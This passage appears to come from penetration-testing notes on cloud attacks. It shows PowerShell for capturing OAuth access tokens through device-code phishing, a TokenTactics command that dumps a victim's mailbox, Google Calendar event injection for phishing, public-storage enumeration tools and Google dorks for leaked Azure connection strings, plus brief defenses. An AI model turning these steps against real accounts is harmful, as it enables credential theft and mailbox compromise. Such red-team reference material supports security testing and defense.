 - Manually version 2 API
```
$GrantType = "urn:ietf:params:oauth:grant-type:device_code"

$body=@{
	"client_id" = $ClientID
	"grant_type" = $GrantType
	"code" = $authResponse.device_code
}
$Tokens = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/v2.0/token" -Body $body -ErrorAction SilentlyContinue
$GraphAccessToken = $Tokens.access_token

$GraphAccessToken 
```

- Graph spy and token tactics automatically pulls for the access token

#### Post exploitation
- Example dump mailbox with TokenTactics:
```
Dump-OWAMailboxViaMSGraphApi -AccessToken $response.access_token -mailFolder  
AllItems
```

### Dynamic device code phishing
- Dynamically request codes and give them to the user on a webpage to
- https://www.blackhillsinfosec.com/dynamic-device-code-phishing/

#### Defense
- Logs
  - Attacker IP and device that is logged in Entra ID Sign-in logs
  - Sign in with Authentication Protocol: Device Code
- Conditional Access
  - Location based policy
  - Block device code flow [Documentation](https://learn.microsoft.com/en-us/entra/identity/conditional-access/how-to-policy-authentication-flows)

### Google workspace calendar event injection
- Silently injects events to target calendars
- Bypasses the “don’t auto-add” setting
- Include link to phishing page
- https://www.blackhillsinfosec.com/google-calendar-event-injection-mailsniper/

## Public Storage
### Find data in public storage
- https://github.com/initstring/cloud_enum can scan all three cloud services for multiple services.
- https://github.com/jordanpotti/CloudScraper can scan all three cloud services for multiple services.

### Azure storage accounts
#### Google Dorks
```
site:github.com “StorageConnectionString” “DefaultEndpointsProtocol”
site:http://blob.core.windows.net
```
